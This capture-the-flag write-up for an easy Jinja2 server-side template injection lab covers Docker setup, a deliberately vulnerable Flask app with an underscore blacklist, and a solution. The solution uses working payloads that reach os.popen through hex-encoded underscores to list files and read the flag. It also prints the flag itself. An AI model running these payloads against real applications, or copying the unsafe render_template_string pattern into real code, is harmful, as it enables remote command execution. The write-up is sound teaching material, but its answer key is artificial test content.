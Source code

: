# SSTI-Easy 2

### Difficulty: Easy

### Objective: Bypass blacklisted ("_")

## Setting Up

Ensures that `Docker` is installed into your machine as this challenge requires Docker. If you're unsure how to do it, you can refer [here](https://www.kali.org/docs/containers/installing-docker-on-kali/) to install it into your Kali machine. Then, install the files `app.py` , `Dockerfile` and `flag-d3a358c6bff2c9f7412e5485b3e2cd2e.txt` into the same directory.

### Commands (Kali)
[1] `sudo docker build -t sstichall .`

[2] `sudo docker run -d sstichall`

[3] `sudo docker logs <The container id>`

Use the first IP provided by the command [3] to access the challenge as highlighted below.

![image](https://github.com/user-attachments/assets/a2dc8099-2cb9-42d9-a8d2-c34d04b245e8)

Challenge should look like this and you are ready to go!

![image](https://github.com/user-attachments/assets/71d4d057-c35f-4c21-b28f-efaa2f35bff9)

## Solution 
<details>

The challenge starts with a text box and allows user input. Then, we starts with the a simple text "hello world" and observe its response.

![image](https://github.com/user-attachments/assets/8c6da092-9fc2-4a3b-9054-d900ca44c47d)

The website seems to return our text back as a response. 

![image](https://github.com/user-attachments/assets/03732c9a-86e7-4042-9ea6-9877e978db85)

Let's try using a simple SSTI payload `{{7*7}}` and observe its behaviour.

![image](https://github.com/user-attachments/assets/d853ed2f-3c60-48bd-880a-be6fa23756ca)

The website returns `49`! That means it is vulnerable to SSTI.

![image](https://github.com/user-attachments/assets/26b6ae54-1bfe-4884-9df2-66fe944dbcea)

Let's use a SSTI payload like `{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}` to list down files in the directory!

![image](https://github.com/user-attachments/assets/579ab938-dac5-4d4a-8aed-3edd8ad37819)

The website somehow is blocking our payload.Looks like they blacklisted some characters.

![image](https://github.com/user-attachments/assets/01fb2f5e-312b-48a1-b6b6-ffc1ceec65d7)

Let's analyze the source code and figure out what character did the website blacklisted.

### Source Code (python)
```python

from flask import Flask, request, url_for, render_template_string
import re

app=Flask(__name__)

blacklisted=[r"\_"]

@app.route('/', methods=('GET','POST'))
def index():
        if request.method=='POST':
                note=request.form['note']
                if sanitize(note):
                        return render_template_string(note)
                else:
                        return('Please provide valid text')
        return '''
                <form method="POST">
                        Note:<input type="text" name="note">
                        <input type="submit" value="Submit">
                </form>
        '''

def sanitize(x):
        for i in blacklisted:
                if re.findall(i,x):
                        return False
        return True

if __name__=='__main__':
        app.run(host='0.0.0.0',port= 5000,debug=True)  

```

The website is confirmed to be vulnerable to SSTI (Jinja 2) as the source code contains the function `render_template_string`. However, there is a function that seems to be preventing us from reaching the vulnerable function which is the `sanitize()`. It will return boolean `False` when it detected the strings contains underscores which can prevent a regular SSTI payload. We can use another SSTI payload to bypass this sanitization by encoding "_" into hex strings which is `\x5f`. Therefore, the payload should look something like this.

`{{request['application']['\x5f\x5fglobals\x5f\x5f']['\x5f\x5fbuiltins\x5f\x5f']['\x5f\x5fimport\x5f\x5f']('os')['popen']('ls')['read']()}}`

Let's use this payload to list down the directories and see what happens.

![image](https://github.com/user-attachments/assets/e3482f8e-2d40-45b3-b004-398812761e3c)

And it works! We successfully view all the files contain inside the server directory. Let's try viewing the flag using this command:

`{{request['application']['\x5f\x5fglobals\x5f\x5f']['\x5f\x5fbuiltins\x5f\x5f']['\x5f\x5fimport\x5f\x5f']('os')['popen']('cat flag-d3a358c6bff2c9f7412e5485b3e2cd2e.txt ')['read']()}}`

![image](https://github.com/user-attachments/assets/28949435-0e8d-4d1c-b292-492768262978)


## Flag
>flag{3a823364c48716d80fb5a766454bacd4} 

</details>
